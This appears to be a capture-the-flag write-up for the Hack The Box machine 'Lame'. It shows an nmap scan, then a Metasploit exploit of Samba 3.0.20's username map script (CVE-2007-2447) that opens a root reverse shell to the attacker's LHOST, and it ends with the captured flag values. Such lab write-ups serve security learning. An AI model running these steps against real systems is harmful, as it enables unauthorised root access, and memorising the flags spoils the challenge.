 # Lame - Easy

```shell
nmap -T4 -p- -A -Pn 10.10.10.3

ftp 10.10.10.3

msfconsole -q

use exploit/multi/samba/usermap_script

show options

set RHOSTS 10.10.10.3

set RPORT 445

set LHOST 10.10.14.3

show options

run

#reverse shell
whoami
#root
```

```markdown
Open ports & services:

  * 21 - ftp - vsftpd 2.3.4
  * 22 - ssh - OpenSSH 4.7p1
  * 139 - netbios-ssn - Samba smbd 3.X - 4.X
  * 445 - netbios-ssn - Samba smbd 3.0.20 (Debian)
  * 3632 - distccd - distccd

We can login into ftp as anonymous, but there are no files.

Now, Googling for 'Samba 3.0.20' gives us exploits based on 'Username map script', CVE-2007-2447; we can use this with Metasploit.

Using msfconsole, we get reverse shell as root.

User flag can be found in /home/makis and root flag can be found in /root.
```

1. Submit user flag - 09f98474d849a66f7e7621ed8fc31d09

2. Submit root flag - dfcd0b4cf64e8bb227694d0691ac8092

